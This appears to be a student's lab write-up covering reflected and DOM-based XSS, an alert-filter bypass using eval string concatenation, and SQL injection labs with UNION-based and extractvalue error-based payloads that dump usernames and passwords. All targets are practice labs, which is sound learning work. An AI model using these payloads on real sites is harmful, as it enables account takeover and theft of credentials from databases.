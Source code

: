 # XSS
## REFLECTED XSS
In this the lab contains a simple reflected xss vulnerability, where we need to use alert () function to solve it.
I called the alert function with the payload `<script>alert(0)</script>`
## DOM BASED XSS
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
To solve this lab, perform a cross-site scripting attack that calls the alert function.
I called the alert function with the payload `"><svg onload=alert()>`
## THE CLIENT SIDE
In this we need to use the alert function to pop up a dialogue box, but if we try it in the traditional way, it says sus link detected and eliminated, after digging a little bit into it I found that thescript filtered it out with the line
`if(link.includes("alert")){
                document.write("sus link detected.....and eliminated");
                document.body.innerHTML += "<br><a href='javascript:location.reload()'>Reload</a>";
            }`
which filters the link if it contains the word alert in it. And neither aLeRt, or changing any letters to capital would work since all letters are converted into lowercase and this turn the aLeRt into alert which gets filtered by the system.
So I used eval function and broke the function into two strings "aler" + "t()" which looks like eval("aler"+"t()"). Now this can bypass the filter since it is intercepted as aler + t() which is not alert() directly.
Here we are using eval() because with the <script> tag it cant understand or merge the two sperate strings.
# SQL Injection
## LAB LOGIN BYPASS
This is a simple login webpage. I tried to enter the username as `administrator'--+` because generally the usernames are sent to the backend by enclosing them in a string and the password is also in the same line so we can comment it out by passing `--+`. And henceforth the system only checks for the usernae and gives us the acess to the account.
## UNION ATTACK
In this we try to breach the usernames and passwords from the backend database. first we check the number of columns containg strings by the payload `' union select 'username','password'--+`. This should print the texts username and password indicating there are 2 columns which columns contain text data. So we make our final payload as `' union select username,password from users --+` which selects both the columns.
## SQLI LABS

### GENERAL APPROACH
1)	First we can check for possible sql injections using `‘`and `‘’`
2)	Then we fuzz around trying to get the syntax of the code
3)	Then we try to make the first statement false by providing something like id=-1. Since we know id is not generally negative. 
4)	We have done this to use the UNION SELECT statement. So if the first one is false so will be the 
5)	`localhost/sqli-labs/Less-1/?id=-1' UNION SELECT ‘a’,'b',database()--+` doing this will get us the name of the database
6)	Then we can type `localhost/sqli-labs/Less-1/?id=' union select NULL,NULL,column_name from information_schema.columns where  table_schema=database() and table_name='users' limit 0,1--+`
7)	To domp all the data from those sql databases.

### LAB 1
`?id=-1’ union select 1,group_concat(username),group_concat(password) from users --+` to break the code
### LAB 2
This accept only integers so it cannot take strings as input

`?id=-1%20union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--+` 
### LAB 3
Same as the first one with the addition of a bracket 

`?id=-1%27)union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--+`
### LAB 4
This is a double quote query

`?id=-1") union select 1,group_concat(username),group_concat(password) from users--+` breaks the code
### LAB 5
In this even if we change the id the webpage does not change in any manner. 
So here we use extractvalue()
1) We get the name of the database by 
   `?id=1' and extractvalue(0x0a,concat(0x0a,(select database())))--+`
2) We then get the table names by
    `?id=1' and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 3,1)))--+`
3) Then we can view columns in users table by
   `?id=1'  and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1)))--+`
   `?id=1'  and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 2,1)))--+`
5)  Then we can extract the data by iterating over the values by
   `?id=1' and extractvalue(0x0a,concat(0x0a,(select concat(username,':',password) from users limit 0,1)))--+`
we can then dump the data by writing a python code [Click here for the code](https://github.com/koppakaajay/bi0s_recruitment/blob/main/sqlilabs5.py)
